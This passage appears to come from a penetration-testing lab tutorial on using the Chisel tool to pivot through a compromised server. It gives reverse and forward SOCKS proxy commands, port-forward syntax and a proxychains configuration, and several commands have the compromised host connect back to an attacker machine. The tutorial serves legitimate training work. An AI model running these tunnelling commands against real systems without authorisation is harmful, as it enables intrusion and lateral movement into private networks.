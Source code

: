 [Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality as the standard SSH proxying / port forwarding we covered earlier; however, the fact it doesn't require SSH access on the compromised target is a big bonus.  

Before we can use chisel, we need to download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal:

You must have an appropriate copy of the chisel binary on _both the attacking machine and the compromised server._ Copy the file to the remote server with your choice of file transfer method. You could use the webserver method covered in the previous tasks, or to shake things up a bit, you could use SCP:  
```
scp -i KEY chisel user@target:/tmp/chisel-USERNAME
```

The chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: `chisel client|server --help`

We will be looking at two uses for chisel in this task (a SOCKS proxy, and port forwarding); however, chisel is a very versatile tool which can be used in many ways not described here. You are encouraged to read through the help pages for the tool for this reason.


__**Reverse SOCKS Proxy:**_  
_Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects _back_ from a compromised server to a listener waiting on our attacking machine.  

On our own attacking box we would use a command that looks something like this:  
```
./chisel server -p LISTEN_PORT --reverse &  
```

This sets up a listener on your chosen `LISTEN_PORT`.  

On the compromised host, we would use the following command:  
```
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```  

This command connects back to the waiting listener on our attacking box, completing the proxy. As before, we are using the ampersand symbol (`&`) to background the processes.


Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.

Note the use of `R:socks` in this command. "R" is prefixed to _remotes_ (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode. It essentially tells the chisel client that the server anticipates the proxy or port forward to be made at the client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once again, reading the chisel help pages for more information is recommended.  

__**Forward SOCKS Proxy:**_  
_Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.  

In many ways the syntax for this is simply reversed from a reverse proxy.

First, on the compromised host we would use:  
```
./chisel server -p LISTEN_PORT --socks5
```  

On our own attacking box we would then use:  
```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```  

In this command, `PROXY_PORT` is the port that will be opened for the proxy.

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.  

**Proxychains Reminder:**  
When sending data through either of these proxies, we would need to set the port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from `socks4` to `socks5`:  

```
[ProxyList]  
# add proxy here ...  
# meanwhile  
# defaults set to "tor"  
socks5  127.0.0.1 1080  
```

**_Note:_** _The above configuration is for a reverse SOCKS proxy -- as mentioned previously, the proxy opens on port 1080 rather than the specified listening port (1337). If you use proxychains with a forward proxy then the port should be set to whichever port you opened (1337 in the above example)._

Now that we've seen how to use chisel to create a SOCKS proxy, let's take a look at using it to create a port forward with chisel.

_**Remote Port Forward:**_A remote port forward is when we connect back from a compromised target to create the forward.  

For a remote port forward, on our attacking machine we use the exact same command as before:  
```
./chisel server -p LISTEN_PORT --reverse &
```

Once again this sets up a chisel listener for the compromised host to connect back to.  
The command to connect back is slightly different this time, however:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the target port, separated by colons. Note the distinction between the `LISTEN_PORT` and the `LOCAL_PORT`. Here the `LISTEN_PORT` is the port that we started the chisel server on, and the `LOCAL_PORT` is the port we wish to open on our own attacking machine to link with the desired target port.  

To use an old example, let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:  
```
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```  

Connecting back to our attacking machine, functioning as a chisel server started with:  
```
./chisel server -p 1337 --reverse &
```  

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

__**Local Port Forward:**_  
_As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:  
`./chisel server -p LISTEN_PORT`  

We now connect to this from our attacking machine like so:  
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`  

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:  
```
./chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```
